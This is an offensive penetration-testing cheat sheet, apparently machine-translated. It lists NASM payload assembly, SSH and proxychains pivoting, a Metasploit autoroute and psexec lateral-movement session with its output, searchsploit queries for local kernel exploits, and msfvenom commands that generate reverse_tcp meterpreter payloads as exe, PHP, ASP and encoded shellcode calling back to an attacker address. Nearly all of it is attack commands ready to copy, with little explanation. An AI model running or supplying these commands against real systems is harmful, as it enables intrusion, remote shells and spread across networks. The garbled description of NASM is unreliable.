 #### NASM command

    Note: NASM, the Netwide Assembler, is a 80 x86 and x86-64 platform based on the assembly language compiler, designed to achieve the compiler program cross-platform and modular features.

    nasm -f bin -o payload.bin payload.asm
    nasm -f elf payload.asm; ld -o payload payload.o; objdump -d payload

#### SSH penetration

    ssh -D 127.0.0.1:1080 -p 22 user@IP
    Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
    proxychains commands target
    SSH penetrates from one network to another
    
    ssh -D 127.0.0.1:1080 -p 22 user1@IP1
    Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
    proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
    Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
    proxychains commands target

#### Use metasploit for penetration

#### <https://www.offensive-security.com/metasploit-unleashed/pivoting/>

    meterpreter > ipconfig
    IP Address : 10.1.13.3
    meterpreter > run autoroute -s 10.1.13.0/24
    meterpreter > run autoroute -p
    10.1.13.0 255.255.255.0 Session 1
    meterpreter > Ctrl+Z
    msf auxiliary(tcp) > use exploit/windows/smb/psexec
    msf exploit(psexec) > set RHOST 10.1.13.2
    msf exploit(psexec) > exploit
    meterpreter > ipconfig
    IP Address : 10.1.13.2

#### Exploit-DB based on CSV file

    git clone https://github.com/offensive-security/exploit-database.git
    cd exploit-database
    ./searchsploit –u
    ./searchsploit apache 2.2
    ./searchsploit “Linux Kernel”

    cat files.csv | grep -i linux | grep -i kernel | grep -i local | grep -v dos | uniq | grep 2.6 | egrep “<|<=” | sort -k3

#### MSF Payloads

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> X > system.exe
    msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 R > exploit.php
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e -a x86 –platform win -f asp -o file.asp
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP Address> LPORT=443 -e x86/shikata_ga_nai -b “\x00” -a x86 –platform win -f c
